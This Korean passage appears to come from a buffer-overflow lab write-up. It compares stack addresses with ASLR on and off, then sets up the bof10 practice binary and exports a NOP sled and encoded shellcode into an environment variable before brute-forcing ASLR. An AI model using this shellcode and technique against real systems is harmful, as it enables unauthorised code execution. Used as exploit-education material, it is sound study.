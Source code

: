 #### ASLR 활성화 시 출력

```shell
λ  csrepo ./a.out
stack value address : 0x7ffc61e8da54
λ  csrepo ./a.out
stack value address : 0x7fff34c50614
λ  csrepo ./a.out
stack value address : 0x7ffdf0a9baa4
```

#### ASLR 비활성화 시 출력

```shell
λ  csrepo ./a.out
stack value address : 0x7ffc61e8da54
λ  csrepo ./a.out
stack value address : 0x7ffc61e8da54
λ  csrepo ./a.out
stack value address : 0x7ffc61e8da54
```

## ASLR 우회 

지금까지 `bof1` 부터 `bof9` 까지 풀어봤는데 모두 다 ASLR 이 비활성화된 환경이었다. 이제부터는 ASLR 이 활성화된 시스템에서 `BOF` 취약점으로 익스플로잇을 시도해보자. 

## bof10.c bof11.c 

bof10.c 는 ASLR 이 걸린 상황에서의 bof8.c 과 같은 문제고 bof11.c 은 ASLR 이 걸린 상황에서늬 bof9.c 문제와 같다.

bof10.c 는 bof8.c 처럼 스택에 실행권한이 있어서(NX 비트가 걸려있지 않음) 환경변수에 쉘코드를 삽입하여 익스플로잇을 시도할 수 있다. 하지만 bof11.c 는 bof9.c 처럼 스택에 실행권한이 제거되서 RTL 기법을 시도해야 한다. 

### bof10 (brute-force)

`bof10` 을 실행시키는 환경은 NX 비트가 스택에 활성화 되어있지 않은 대신 ASLR 이 활성화 되어있다. 그리고 32 비트 용 프로그램(x86) 으로 컴파일 되어 있어서 주소값으로 4 바이트를 사용한다. 

`buf` 의 사이즈가 8 밖에 되지 않기 때문에 일단 쉘코드를 환경변수에 삽입해야 한다.

```shell
export SHELLCODE=`python -c "print '\x90'*10 + '\xeb\x12\x31\xc9\x5e\x56\x5f\xb1\x15\x8a\x06\xfe\xc8\x88\x06\x46\xe2\xf7\xff\xe7\xe8\xe9\xff\xff\xff\x32\xc1\x32\xca\x52\x69\x30\x74\x69\x01\x69\x30\x63\x6a\x6f\x8a\xe4\xb1\x0c\xce\x81'"`
```

그런데 ASLR 이 활성화되어 있기 때문에 `SHELLCODE` 환경변수의 주소값이 계속 변한다. 

```shell
$ ./bof10 chansol
Hello chansol[0xffa8b5e8]!
(env:SHELLCODE -> 0xffa8c834)
$ ./bof10 chansol
Hello chansol[0xff7fc9c8]!
(env:SHELLCODE -> 0xff7fe834)
$ ./bof10 chansol
Hello chansol[0xffa28a98]!
(env:SHELLCODE -> 0xffa29834)
```
